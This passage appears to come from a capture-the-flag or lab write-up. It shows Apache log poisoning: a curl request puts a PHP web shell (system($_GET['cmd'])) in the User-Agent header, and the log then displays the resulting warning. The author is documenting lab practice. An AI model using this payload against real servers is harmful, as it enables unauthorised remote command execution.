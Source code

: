![](../.gitbook/assets/logFileFirst.PNG)

**Using curl to poison the log**\
As all of our requests are captured in the log file we can look to exploit this by injecting our own PHP code into the log file via a request. [This resource from sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html) gives several ways to inject PHP code into pages. Choosing one we can make a request to the site using curl:

```bash
curl http://$TGT -H "User-Agent: <?php system(\$_GET['cmd']); ?>" 
```

**Note**: If a php error is produced here you may need to reset your machine as the PHP is now stored in log file. Once you have reset the machine input the correct curl command above making sure to use the new machine's IP.\
For me, I had to restart my machine because the amount of requests I made with gobuster enumeration made the logs hard to view in my browser.

If we now take a look at the log file again it now shows us a **warning** 'system(): Cannot execute a blank command in /var/log/apache2/access.log\*\*'\*\*
